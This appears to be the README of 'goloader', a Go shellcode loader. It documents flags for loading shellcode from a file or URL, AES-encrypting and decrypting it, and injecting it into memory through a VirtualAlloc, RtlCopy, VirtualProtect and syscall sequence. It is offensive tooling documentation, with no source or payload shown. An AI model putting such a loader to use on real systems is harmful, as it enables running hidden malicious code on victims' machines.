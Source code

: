 # goloader
a shellcode loader written in GO.

use cases:
1. inject shellcode
    goloader -p <file path or URL> -i <inject method (currently only syscall implemented)>
2. decrypt (AES) and inject
    goloader -p <file path or URL> -d <32 char long key> -i <inject method (currently only syscall implemented)>
3. decrypt a file (if no -i it will be saved in current dir as sc.dec)
    goloader -p <file path or URL> -d <32 char long key>
4. encrypt a file (will be saved in current dir as sc.enc)
    goloader -p <file path or URL> -e <32 char long key>

Usage:
  -d string
        a 32 char long key used to decrypt the file
  -e string
        a 32 char long key used to encrypt the file
  -i string
        method of code injection.
                methods are:
                - syscall (virtualalloc READWRITE -> RTLCOPY -> virtualprotect EXECUTRE -> syscall)
                - thread () // not implemented
                - proc () // not implemented
                example:
                goget -m syscall

  -p string
        path or URL to shellcode file

